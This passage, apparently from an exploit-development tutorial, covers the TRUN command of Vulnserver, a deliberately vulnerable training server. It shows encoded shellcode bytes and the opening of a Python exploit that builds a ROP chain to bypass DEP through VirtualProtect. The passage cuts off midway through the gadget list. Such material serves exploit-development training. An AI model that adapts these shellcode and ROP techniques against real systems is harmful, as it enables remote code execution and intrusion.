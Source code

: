 ``` console
SHELL += b"\x59\x43\x9e\xf7\xa2\xa1\xb6\x9f\xeb\xa3\x01\xa0"
SHELL += b"\xeb\xe1\x25\x36\x60\xe6\xf1\x27\x77\x23\x52\x30"
SHELL += b"\xe0\xb9\x33\x73\x90\xbe\x19\xe3\x31\x2c\xc6\xf3"
SHELL += b"\x3c\x4d\x51\xa4\x69\xa3\xa8\x20\x84\x9a\x02\x56"
SHELL += b"\x55\x7a\x6c\xd2\x82\xbf\x73\xdb\x47\xfb\x57\xcb"
SHELL += b"\x91\x04\xdc\xbf\x4d\x53\x8a\x69\x28\x0d\x7c\xc3"
SHELL += b"\xe2\xe2\xd6\x83\x73\xc9\xe8\xd5\x7b\x04\x9f\x39"
SHELL += b"\xcd\xf1\xe6\x46\xe2\x95\xee\x3f\x1e\x06\x10\xea"
SHELL += b"\x9a\x36\x5b\xb6\x8b\xde\x02\x23\x8e\x82\xb4\x9e"
SHELL += b"\xcd\xba\x36\x2a\xae\x38\x26\x5f\xab\x05\xe0\x8c"
SHELL += b"\xc1\x16\x85\xb2\x76\x16\x8c"
```

And update our exploit:

``` python
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999


def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]
        #[---INFO:gadgets_to_set_ebx:---]
        0x625011b4,  # POP EAX # RETN [essfunc.dll]
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edx:---]
        0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x90909090,  # nop
```